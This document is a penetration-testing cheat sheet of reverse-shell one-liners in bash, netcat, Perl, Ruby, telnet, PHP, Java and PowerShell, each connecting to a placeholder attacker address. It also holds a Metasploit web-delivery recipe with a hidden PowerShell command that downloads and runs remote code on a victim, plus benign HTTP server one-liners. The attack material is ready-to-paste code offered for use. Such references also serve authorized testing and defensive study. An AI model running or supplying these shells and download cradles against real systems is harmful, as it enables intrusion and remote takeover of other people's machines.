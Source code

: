 ```yaml
---
title: Shells and Web Servers
category: Exploitation
order: 6
---
```


> **Reverse Shell One-Liners**

Listener | <code> nc -l -v attackerip 4444 </code>
Bash | <code> exec /bin/bash 0&0 2>&0 </code>
Bash | <code> 0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196 </code>
Bash | <code> exec 5<>/dev/tcp/attackerip/4444 <br> cat <&5 | while read line; do $line 2>&5 >&5; done  # or: <br> while read line 0<&5; do $line 2>&5 >&5; done </code>
NC | <code> nc -c /bin/sh attackerip 4444 </code>
NC | <code> /bin/sh | nc attackerip 4444 </code>
NC | <code> rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p </code>


**Perl Reverse Shell**

{% highlight perl %}
#Linux
perl -e 'use Socket;$i="192.168.186.128";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#Linux
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

#Windows
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
{% endhighlight %}

**Ruby**
{% highlight ruby %}
#Linux
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

#Windows
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
{% endhighlight %}

**Telnet**

{% highlight bash %}
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p

telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp
{% endhighlight %}

**PHP**

{% highlight php %}
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
{% endhighlight %}

**Java**

{% highlight java%}
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
{% endhighlight %}

**Powershell**

{% highlight powershell %}
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
#$client = New-Object System.Net.Sockets.TCPClient('192.168.254.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

#$sm=(New-Object Net.Sockets.TCPClient('192.168.254.1',55555)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
{% endhighlight %}

* [Reverse Shell One liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

> **HTTP Servers One-Liners**

Python 2 | python -m SimpleHTTPServer 8000
Python 3 | python -m http.server 8000
ruby | <code> ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start' </code>
ruby 1.9.2+ | ruby -run -ehttpd . -p8000
perl | <code> perl -MHTTP::Server::Brick -e '$s=HTTP::Server::Brick->new(port=>8000); $s->mount("/"=>{path=>"."}); $s->start' </code>
php | php -S 127.0.0.1:8000
IIS Express | "C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\MyWeb /port:8000"
OpenSSL | <code> openssl req -newkey rsa:2048 -nodes -x509 -subj '/CN=name-you-want.example.com' -days 3650 -out server.cert -keyout server.key <br> openssl s_server -accept 7781 -cert server.cert -key server.key -WWW </code>


> **Powershell HTTP Servers**

{% highlight powershell %}
$Hso = New-Object Net.HttpListener
$Hso.Prefixes.Add("http://+:8000/")
$Hso.Start()
While ($Hso.IsListening) {
    $HC = $Hso.GetContext()
    $HRes = $HC.Response
    $HRes.Headers.Add("Content-Type","text/plain")
    $Buf = [Text.Encoding]::UTF8.GetBytes((GC (Join-Path $Pwd ($HC.Request).RawUrl)))
    $HRes.ContentLength64 = $Buf.Length
    $HRes.OutputStream.Write($Buf,0,$Buf.Length)
    $HRes.Close()
}
$Hso.Stop()
{% endhighlight %}

> **Script Web Delivery** 

On the attacker machine: 
{% highlight bash %}
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show targets
            ...targets...
msf exploit(web_delivery) > set TARGET <target-id>
msf exploit(web_delivery) > show options
            ...show and set options...
msf exploit(web_delivery) > exploit
{% endhighlight %}

On the victim: 
{% highlight bash %}
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.10:80/[randomstring]'))
{% endhighlight %}

Reference:
* [securitypadawan](https://securitypadawan.blogspot.com/2014/02/php-meterpreter-web-delivery.html)


> **Useful Resources** 

* [Powershell HTTPS Shell](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-3.html)
* [powercat](https://www.sans.org/reading-room/whitepapers/testing/powercat-35807)
* [powercat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

